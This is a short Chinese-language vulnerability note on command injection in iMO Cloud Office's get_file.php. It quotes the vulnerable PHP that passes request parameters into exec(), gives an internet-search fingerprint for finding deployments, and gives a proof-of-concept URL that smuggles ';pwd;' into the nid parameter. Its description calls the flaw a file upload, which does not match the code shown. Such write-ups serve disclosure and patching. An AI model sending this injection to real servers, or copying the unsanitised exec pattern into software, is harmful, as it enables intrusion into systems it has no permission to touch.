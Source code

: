 # imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

```
imo 云办公室
```

## 网络测绘

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](./images/202205241720834.png)

漏洞文件 get_file.php

```
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![image-20220524172138053](./images/202205241721104.png)
